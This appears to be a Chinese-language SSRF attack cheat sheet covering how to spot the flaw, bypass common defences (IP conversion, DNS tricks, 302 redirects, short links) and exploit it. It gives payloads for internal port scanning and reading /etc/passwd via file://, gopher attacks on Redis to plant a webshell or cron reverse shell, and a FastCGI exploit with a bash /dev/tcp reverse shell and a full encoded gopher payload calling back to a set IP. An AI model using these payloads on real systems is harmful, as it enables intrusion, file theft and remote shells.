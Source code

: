 > 1）通过抓包分析发送的请求是否是由服务器的发送的，从而来判断是否存在SSRF漏洞
>
> 2）在页面源码中查找访问的资源地址 ，如果该资源地址类型为 www.baidu.com/xxx.php?image=（地址）的就可能存在SSRF漏洞 

### 常见防御和绕过

> **检查Host是否是内网IP** ；IP地址转换绕过，DNS解析绕过(xip.io)，利用URL解析器滥用 
>
> **限制可用协议和请求端口**(HTTP、HTTPS；80、443)；302跳转绕过
>
> **禁止跳转**；
>
> **URL长度限制**；短链接：[生成短链接的网站](https://tinyurl.com/)

#### 攻击利用方法

#### **内网端口扫描**

```bash
ssrf.php?url=127.0.0.1:3306		#探测是否存在MySQL服务
```

#### **file协议读取内网文件**

```bash
ssrf.php?url=file:///etc/passwd
```

#### **GOPHER打redis**

> **条件：**能未授权或者通过弱口令认证访问到Redis服务器

方式主要有：

> 1、绝对路径写webshell
>
> 2、写contrab计划任务反弹shell

用脚本直接生成payload后去打就行（[脚本在这](https://github.com/LS95/gopher-redis-auth)，RESP协议还是要了解的，不能光会用脚本）

```bash
curl -v "payload内容"
```

#### **GOPHER打FastCGI**

一般来说 FastCGI 都是绑定在 127.0.0.1 端口上的，但是利用 Gopher+SSRF 可以完美攻击 FastCGI 执行任意命令。 

首先根据[faci_exp](https://github.com/piaca/fcgi_exp)生成exp，随后改成支持gopher协议的URL 

```bash
./fcgi_exp system 目标IP 9000 /var/www/html/1.php "bash -i >& /dev/tcp/攻击者IP/2333 0>&1"
nc -lvv 2333 > 1.txt
xdd 1.txt
```

 构造 Gopher 协议的 URL： 

```cmd
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/172.19.23.228/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00
```
